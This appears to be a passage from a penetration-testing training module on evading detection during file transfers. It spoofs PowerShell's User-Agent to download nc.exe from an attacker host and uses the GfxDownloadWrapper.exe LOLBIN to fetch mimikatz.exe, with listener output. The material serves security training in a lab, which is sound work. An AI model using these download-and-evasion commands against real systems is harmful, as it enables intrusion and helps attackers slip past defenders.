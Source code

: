#  Changing User Agent

If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, setting this User Agent may make the request seem legitimate.

#### Listing out User Agents

Evading Detection

```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

#### Request with Chrome User Agent

Evading Detection

```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

Evading Detection

```shell-session
shakir0x00@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

---

## LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries". An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

#### Transferring File with GfxDownloadWrapper.exe

Evading Detection

```powershell-session
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.

---

## Closing Thoughts

As we've seen in this module, there are many ways to transfer files to and from our attack host between Windows and Linux systems. It's worth practicing as many of these as possible throughout the modules in the Penetration Tester path. Got a web shell on a target? Try downloading a file to the target for additional enumeration using Certutil. Need to download a file off the target? Try an Impacket SMB server or a Python web server with upload capabilities. Refer back to this module periodically and strive to use all the methods taught in some fashion. Also, take some time whenever you're working on a target or lab to search for a LOLBin or GTFOBin that you've never worked with before to accomplish your file transfer goals.
